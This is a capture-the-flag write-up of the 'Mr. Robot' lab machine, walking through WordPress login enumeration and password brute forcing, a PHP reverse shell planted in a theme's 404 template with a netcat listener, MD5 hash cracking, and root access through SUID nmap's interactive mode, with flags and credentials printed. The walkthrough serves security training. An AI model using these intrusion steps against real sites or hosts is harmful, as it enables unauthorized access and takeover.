 # My writeup for MR. ROBOT machine
Let's get started with nmap scan. I found three ports open for ssh, http, https

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/12744873-28e5-4421-a54b-483987e7d9db)
# Enumerate the website on port 80
When i explore a webiste i always start with /robots.txt to see unwanted paths

![robots](https://github.com/moataz-bellah/writeups/assets/47069499/4fafa00f-d27f-45c4-b6c4-d03ed1b97a38)
Here we it is, we found flag 1 and an interesting file "fsosity.dic"
Going to /key-1-of-3.txt and we have flag 1 073403c8a58a1f80d943455fb30724b9
![flag1](https://github.com/moataz-bellah/writeups/assets/47069499/035767d7-e45d-4ac7-a2c8-fa83cc9ed8aa)
Let's check fsosity.dic later and continue enumeration. I did directory busting
```
sudo dirb http://192.168.0.105
```
I a lot of directories but i want to focus on three directories
```
http://192.168.0.105/0/
http://192.168.0.105/wp-admin/login
http://192.168.0.105/admin/robot
```
As we see it is a wordpress app. I went to /0/ and found a normal page has nothing to look for, so let's move to /wp-admin/login
First thing i tried is login with default credentials of wordpress but i didn't work. However i noticed somthing interesting.
![invalid_username](https://github.com/moataz-bellah/writeups/assets/47069499/d629ec5e-da2c-4333-bbc5-187baaaf0668)
As we see it tells me invalid username which means that page has poor validation. We can take advantage of that and brute force the username
and password. Back to fsocity.dic and explore it.
```
sort fsocity.dic | uniq > wordlist
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```
It has random words it seems to be a dictionary of usernames or passwords
I checked to wordcount of the file
```
cat fsocity.dic | wc -l
858160
```
Let's see if that file has duplicates
```
sort fsocity.dic | uniq | wc -l
11451
```
As we see, we have a lot of duplicates. I created a new instance of that file without duplicates 
```
sort fsocity.dic | uniq > wordlist
```
Now we have a wordlist, let' see if it has username or password we can use to login.
Back to the login page, i tried a random username "elliot" and i was lucky.
![login](https://github.com/moataz-bellah/writeups/assets/47069499/e7c29d49-c17d-4369-a790-bddd6c0ced75)
That tells us the username we entered is correct and we just need to brute force the password
I wrote a python script to brute force the username and password
- Script to brute force username
![username_script](https://github.com/moataz-bellah/writeups/assets/47069499/3d325f5f-9a0e-4c51-89e0-1fe1b4dd175f)
- Script to brute force password
![password_script2](https://github.com/moataz-bellah/writeups/assets/47069499/877e92cf-5bb8-44f4-b2bd-c659336ed281)
After running the scripts we have the username: "elliot" and password: "ER28-0652". Let's login using these credentials
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/cf3bfb4c-a19f-46e6-bd63-86ac486f31cd)
I was exploring the dashboard trying to find anything useful but i didn't. So i did some research about ideas to get reverse shell in wordpress
and i found that great resourse https://www.hackingarticles.in/wordpress-reverse-shell/
According to that link i went to appearance, then editor.
![reverse_shell2](https://github.com/moataz-bellah/writeups/assets/47069499/a02ef163-13f2-4bfd-b7a7-3beed04d069f)
1: I looked for a php reverse shell online, and i put it inside the editor

2: Changed templates to 404 Template  

![reverse_shell](https://github.com/moataz-bellah/writeups/assets/47069499/20358daa-4e05-4470-85dd-b509e78c95ed)

3: Update File  

To get reverse shell we need to visit http://192.168.0.105/wp-content/themes/twentyfifteen/404.php. But before that we need to
listen to any incoming connection
```
sudo nc -nvlp 4444
```
Now we execute the shell by visiting /wp-content/themes/twentyfifteen/404.php, and yeah we got a shell
![shell](https://github.com/moataz-bellah/writeups/assets/47069499/f21a4844-6fae-4b19-82ef-4b642bab8eb8)
Let's switch to pty
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
Our current user is daemon. Let's visit /home
```
cd /home
ls
robot
```
See what inside robot
```
ls robot
key-2-of-3.txt  password.raw-md5
```
We have flag 2 but our user doesn't have permission to open, so we need to switch to robot user. Look we have interesting file password.raw-md5
```
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
We have a username and a hashed password. Let's try to crack that hash. I tried that website and it worked https://crackstation.net/
and that is the cracked hash is abcdefghijklmnopqrstuvwxyz. Let's switch to robot using that password
```
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
```
Yeah we are robot, and now we can read flag 2 
```
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
# Privilege Escalation
After some research i found something called suid, that is something allows users executes files using the privileges of the owner of file.
Using that feature we can look for files that have setuid permission and owned by root user, so we can execute on of these files using privileges of root. 
That command below shows which files have suid permission.
```
robot@linux:/$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
the option -perm -4000 means files has suid permession.According to shown results, we have many files, but i want to focus on nmap.
I made a quick research on nmap and if we can get privilege escalation and i found that good link https://vk9-sec.com/nmap-privilege-escalation/  
```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>
```
I tried command !bash and didn't work, but when i tried !sh it worked
```
nmap> !sh
!sh
# whoami
root
#
```
Now we are root
Let't get the flag
```
# cd root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Machine is done
